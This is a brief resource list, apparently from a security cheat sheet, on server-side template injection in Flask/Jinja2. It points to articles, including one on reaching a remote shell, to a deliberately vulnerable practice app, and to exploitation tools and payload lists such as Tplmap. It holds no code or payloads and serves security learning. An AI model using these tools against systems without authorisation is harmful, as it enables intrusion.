Exploring SSTI in Flask/Jinja2
Server Side Template Injection: from detection to Remote shell
Extreme Vulnerable Web Application
Divine Selorm Tsa: Exploiting server side template injection with tplmap
### Tools
Tplmap
Backslash Powered Scanner Burp Suite extension
Template expression test strings/payloads list